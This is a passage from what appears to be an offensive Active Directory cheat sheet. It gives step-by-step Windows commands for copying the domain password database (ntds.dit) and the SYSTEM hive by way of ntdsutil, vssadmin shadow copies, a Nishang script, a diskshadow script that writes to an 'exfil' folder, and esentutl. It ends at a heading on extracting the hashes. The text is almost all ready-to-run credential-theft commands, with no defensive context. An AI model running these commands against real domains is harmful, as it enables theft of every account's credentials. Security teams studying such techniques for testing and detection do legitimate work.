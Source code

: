 or 

```powershell
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```

#### Using Vshadow

```powershell
vssadmin create shadow /for=C :
Copy Shadow_Copy_Volume_Name\windows\ntds\ntds.dit c:\ntds.dit
```

You can also use the Nishang script, available at : [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

```powershell
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```

#### Using vssadmin

```powershell
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
```

#### Using DiskShadow (a Windows signed binary)

```powershell
diskshadow.txt contains :
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset

then:
NOTE - must be executed from C:\Windows\System32
diskshadow.exe /s  c:\diskshadow.txt
dir c:\exfil
reg.exe save hklm\system c:\exfil\system.bak
```

#### Using esentutl.exe

Copy/extract a locked file such as the AD Database

```powershell
esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
```

#### Extract hashes from ntds.dit
